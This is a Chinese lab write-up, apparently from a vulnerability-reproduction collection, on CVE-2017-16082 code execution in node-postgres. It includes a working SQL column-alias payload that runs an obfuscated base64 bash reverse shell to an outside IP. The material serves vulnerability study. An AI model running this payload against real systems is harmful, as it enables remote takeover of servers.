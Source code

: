 # node-postgres 代码执行漏洞（CVE-2017-16082）

## 漏洞原理

node-postgres在处理类型为`Row Description`的postgres返回包时，将字段名拼接到代码中。由于没有进行合理转义，导致一个特殊构造的字段名可逃逸出代码单引号限制，造成代码执行漏洞。

参考链接：

 - https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html
 - https://node-postgres.com/announcements#2017-08-12-code-execution-vulnerability
 - https://zhuanlan.zhihu.com/p/28575189

## 漏洞环境

执行如下命令编译及运行一个基于node-postgres 7.1.0的漏洞环境：

```
docker compose build
docker compose up -d
```

成功运行后，访问`http://your-ip:3000/?id=1`即可查看到id为1的用户信息，用sqlmap即可发现此处存在注入点，且数据库为postgres：

![](img/1.png)

## 漏洞复现

那么，我们就可以猜测这里存在node-postgres的代码执行漏洞。编写我想执行的命令`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTkuMC4xLzIxIDA+JjE=|base64 -d|bash`，然后适当分割（每段长度不超过64字符）后替换在如下payload中：

```
SELECT 1 AS "\']=0;require=process.mainModule.constructor._load;/*", 2 AS "*/p=require(`child_process`);/*", 3 AS "*/p.exec(`echo YmFzaCAtaSA+JiAvZGV2L3Rj`+/*", 4 AS "*/`cC8xNzIuMTkuMC4xLzIxIDA+JjE=|base64 -d|bash`)//"
```

将上述payload编码后发送：

![](img/2.png)

成功执行命令，如反弹shell：

![](img/3.png)

因为复现过程中坑比较多，payload生成与测试过程中如果出现错误，还请多多阅读[我的这篇文章](https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html)，从原理上找到问题所在。
